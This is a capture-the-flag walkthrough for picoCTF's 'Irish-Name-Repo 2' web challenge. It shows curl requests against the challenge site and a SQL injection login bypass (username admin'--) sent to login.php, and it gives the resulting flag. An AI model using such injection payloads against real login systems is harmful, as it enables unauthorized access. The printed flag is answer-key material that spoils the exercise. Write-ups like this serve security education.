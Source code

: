 # PicoGym Web Exploitation Writeup

Author: [Kuldeep Singh Chouhan](https://github.com/kuldeep-singh-chouhan)

Challenge Page: [Irish-Name-Repo 2](https://jupiter.challenges.picoctf.org/problem/64649/)

## Walkthrough
To gather some information let's see the HTML source code by using 
`curl https://jupiter.challenges.picoctf.org/problem/64649/`.
A part of the source code hints towards `login.html`.
```html
<!-- Sidebar (hidden by default) -->
<nav class="w3-sidebar w3-bar-block w3-card w3-top w3-xlarge w3-animate-left" style="display:none;z-index:2;width:40%;min-width:300px" id="mySidebar">
  <a href="javascript:void(0)" onclick="w3_close()" class="w3-bar-item w3-button">Close Menu</a>
  <a href="support.html" class="w3-bar-item w3-button">Support</a>
  <a href="login.html" class="w3-bar-item w3-button">Admin Login</a>
</nav>
```

Let's go to `login.html` by `curl https://jupiter.challenges.picoctf.org/problem/64649/login.html`. Here, we see `login.php`
```html
<form action="login.php" method="POST">
        <fieldset>
            <div class="form-group">
                <label for="username">Username:</label>
                <input type="text" id="username" name="username" class="form-control">
            </div>
            <div class="form-group">
                <label for="password">Password:</label>
                <div class="controls">
                    <input type="password" id="password" name="password" class="form-control">
                </div>
            </div>
            <input type="hidden" name="debug" value="0">

            <div class="form-actions">
                <input type="submit" value="Login" class="btn btn-primary">
            </div>
        </fieldset>
    </form>
```
Try going to `login.php` by `curl https://jupiter.challenges.picoctf.org/problem/64649/login.php`. Login will be failed. Try username as `admin'--` and password as `asdf` (anything).
`curl https://jupiter.challenges.picoctf.org/problem/64649/login.php --data "username=admin'--&password=asdf"`.
Flag found!!

## Flag
`picoCTF{m0R3_SQL_plz_aee925db}`

## Useful resources
Commenting in [SQL Injection](https://www.netsparker.com/blog/web-security/sql-injection-cheat-sheet/#LineCommentAttacks).

## Suggested modifications
Word `admin` could be filtered so that use of string concatenation operator could be made.
